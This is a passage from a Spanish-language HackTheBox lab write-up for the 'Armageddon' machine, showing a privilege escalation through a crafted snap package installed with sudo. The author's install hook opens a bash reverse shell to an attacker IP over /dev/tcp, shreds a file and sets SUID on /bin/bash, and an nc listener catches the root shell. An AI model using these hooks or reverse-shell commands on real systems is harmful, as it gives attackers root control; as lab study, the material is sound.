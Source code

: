 Perfectooooooooooooooooooooooo, tenemos ejecución de comandos en el sistema como el usuario **root**... Ahora intentemos generar una reverse Shell y si no nos funciona también podemos intentar modificar los permisos del binario `/bin/bash` y agregarle que ahora sea `SUID`, para que nos dé una `bash` con respecto al usuario propietario sin problemas (o sea **root**)... Veamos:

Modificamos el archivo `install`:

```bash
❭ cat snap/hooks/install
#!/bin/bash

shred -zun 11 /dev/shm/.id.txt·
chmod 4755 /bin/bash·
bash -c "bash -i >& /dev/tcp/10.10.14.164/4433 0>&1"
```

Generamos el paquete:

![323ubu_generating_snapFile_revSH_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/armageddon/323ubu_generating_snapFile_revSH_done.png)

Y ahora lo subimos a la máquina. Nos ponemos en escucha (`nc -lvp 4433`) e instalamos:

![323bash_revSH_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/armageddon/323bash_revSH_done.png)

(Arriba se explotó o bueno, se queda abierto mientras tenemos la Shell ejecutando)

Ya somos **root** en el sistema, o sea podemos hacer lo que queramos :P

Peeeero también se supone que asignamos el permiso **SUID** al binario `/bin/bash`, echémosle un ojo y entendamos para qué lo hicimos.

> (Parece que entra en conflicto con la reverse shell, asi que mejor creemos un paquete que simplemente haga esa tarea)

```bash
❭ cat snap/hooks/install
#!/bin/bash

chmod 4755 /bin/bash·
```

Y al instalarlo:

```bash
[brucetherealadmin@armageddon shm]$ sudo /usr/bin/snap install * --devmode
error: cannot perform the following tasks:
- Run install hook of "dirty-sock" snap if present (run hook "install": chmod: changing permissions of '/bin/bash': Read-only file system)
```

F, no nos deja... Podríamos intentar con `/bin/sh`, pero no nos dejaría porque es un link hacia la `bash`:

```bash
[brucetherealadmin@armageddon shm]$ ls -la /bin/sh
lrwxrwxrwx. 1 root root 4 dic  3 09:35 /bin/sh -> bash
```

Pues nada, cambiando el permiso **SUID** del binario `/bin/bash` podríamos haberle indicado con la instrucción `/bin/bash -p` que ejecute la `bash` con respecto al usuario propietario del objeto, o sea **root**, pero no lo logramos. 
